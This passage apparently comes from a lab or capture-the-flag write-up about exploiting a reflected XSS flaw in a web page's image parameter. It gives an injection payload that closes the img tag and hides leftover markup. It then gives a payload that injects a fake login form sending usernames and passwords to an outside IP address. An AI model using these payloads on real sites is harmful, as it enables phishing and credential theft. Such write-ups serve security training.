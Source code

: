 Also, the payload is directly reflected in the URL.

![](./attachments/Pasted%20image%2020220510222620.png)

This means that this site is vulnerable to a reflected XSS vulnerability that can be leveraged for a phishing attack.

We can use the following payload to lave the `<img>` tag empty and close it gracefully, preventing any artifacts being displayed on the page.

Payload: `'>Haxx<div style="display:none'`

![](./attachments/Pasted%20image%2020220510222009.png)

Now that we can seamlessly display stuff on the page, we can make a malicious login form.

Payload:

```
'><h3>Please login to continue</h3><form action=http://10.10.15.133><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><div style="display:none'
```

Webpage:

![](./attachments/Pasted%20image%2020220510223856.png)
